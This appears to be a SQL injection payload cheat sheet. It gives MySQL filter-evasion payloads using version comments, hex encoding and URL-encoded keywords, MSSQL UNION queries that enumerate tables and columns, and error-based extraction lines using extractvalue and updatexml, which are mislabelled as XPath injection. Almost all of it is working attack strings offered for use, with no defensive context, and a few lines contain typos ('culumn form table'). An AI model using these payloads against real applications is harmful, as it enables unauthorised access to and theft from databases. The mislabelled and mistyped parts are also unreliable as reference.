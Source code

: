 ### Sql inyection payload + comment + hex/unhex

`/*!50000select*/unhex(hex(/*!12345concat*/(0x223e,version(),0x223e,database())))`

### Sql inyection payload + url encode 

`+/*!12120%55%6e%49%6f%4e*/+(%53%65%4c%65%43%74+111,222,333,database(),555,...)+--+`


## MSSQL

```
--           :     Comment Type 1
--+          :     Comment Type 2
--+-         :     SQL Comment
/**/         :     Inline Comment
;%00         :     Null Byte

@@version    :     Current Version
user_name()  :     Current User
user         :     Current User
db_name()    :     Current Database
@@SERVERNAME :     Hostname

Tables

union select table_name from (select top 1 table_name from information_schema.tables order by 1) as 1 order by 1 desc--

Columns

union select column_name from (select top 1 column_name from information_schema.columns where table_name='table' order by 1) as 1 order by 1 desc--

Dump info

union select culumn form table--

```

## Xpath injection

```

+and extractvalue(0x0a,concat(0x0a,(select version())))

+and updatexml(null,concat(0x0a,(select version())),null)

+and extractvalue(0x0a,concat(0x0a,(select database())))

+and updatexml(null,concat(0x0a,(select database())),null)

+and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))

+and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),null)

+and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x6e6f6d627265 limit 0,1)))

+and updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x6e6f6d627265 limit 0,1)),null)

```